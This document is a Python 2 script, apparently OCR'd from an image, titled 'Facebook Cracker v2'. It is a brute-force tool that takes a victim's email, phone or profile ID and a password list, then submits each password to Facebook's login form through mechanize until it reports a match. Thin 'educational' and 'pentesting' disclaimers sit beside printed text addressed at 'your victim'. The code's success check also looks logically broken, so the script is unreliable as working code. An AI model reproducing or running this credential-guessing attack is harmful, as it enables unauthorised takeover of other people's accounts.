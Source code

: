 # Uy
#!usr/bin/python #Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By Facebook Firewall ! #This program is for educational purposes only. #Don't attack people facebook accounts it's illegal !  #If you want to crack into someone's account, you must have the permission of the user.  #InfosecHacker is not responsible.   import sys import random                                                                                                                            import cookielib import mechanize  GHT = '''         +=========================================+         |..........Facebook Cracker v 2...........|         +-----------------------------------------+         |#Author: RdH4CK3r  modified        |         ||         |#Date: 23/10/2015                        |         |#This tool is made for pentesting.       |         |#Changing the Description of this tool   |         |Won't made you the coder ^_^ !!!         |         |#Respect Coderz ^_^                      |         |#I take no responsibilities for the      |         |  use of this program !                  |         +=========================================+         |..........Facebook Cracker v 2...........|         +-----------------------------------------+ ''' print ("Note:- This tool can crack facebook account even if you don't have the email of your victim") print ("# Hit CTRL+C to quit the program") print ("# Use www.graph.facebook.com for more infos about your victim")   email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : ")) passwordlist = str(raw_input("Enter the name of the password list file : "))  useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]    login = 'https://www.facebook.com/login.php?login_attempt=1' def attack(password):    try:      sys.stdout.write("\r[*] trying %s.. " % password)      sys.stdout.flush()      br.addheaders = [('User-agent', random.choice(useragents))]      site = br.open(login)      br.select_form(nr=0)                        ##Facebook      br.form['email'] =email      br.form['pass'] = password      br.submit()      log = br.geturl()      if log == login:         print ("\n\n\n [*] Password found .. !!")         print ("\n [*] Password : %s\n") % (password)         sys.exit(1)   except KeyboardInterrupt:         print ("\n[*] Exiting program .. ")         sys.exit(1)  def search():     global password     for password in passwords:         attack(password.replace("\n",""))    def check():      global br     global passwords     try:        br = mechanize.Browser()        cj = cookielib.LWPCookieJar()        br.set_handle_robots(False)        br.set_handle_equiv(True)        br.set_handle_referer(True)        br.set_handle_redirect(True)        br.set_cookiejar(cj)        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)     except KeyboardInterrupt:        print ("\n[*] Exiting program ..\n")        sys.exit(1)     try:        list = open(passwordlist, "r")        passwords = list.readlines()        k = 0        while k &lt; len(passwords):           passwords[k] = passwords[k].strip()           k += 1     except IOError:         print ("\n [*] Error: check your password list path \n")         sys.exit(1)     except KeyboardInterrupt:         print ("\n [*] Exiting program ..\n")         sys.exit(1)     try:         print (GHT)         print (" [*] Account to crack : %s") % (email)         print (" [*] Loaded :") , len(passwords), "passwords"         print (" [*] Cracking, please wait ...")     except KeyboardInterrupt:         print ("\n [*] Exiting program ..\n")         sys.exit(1)     try:         search()         attack(password)     except KeyboardInterrupt:         print ("\n [*] Exiting program ..\n")         sys.exit(1)  if __name__ == '__main__':     check()
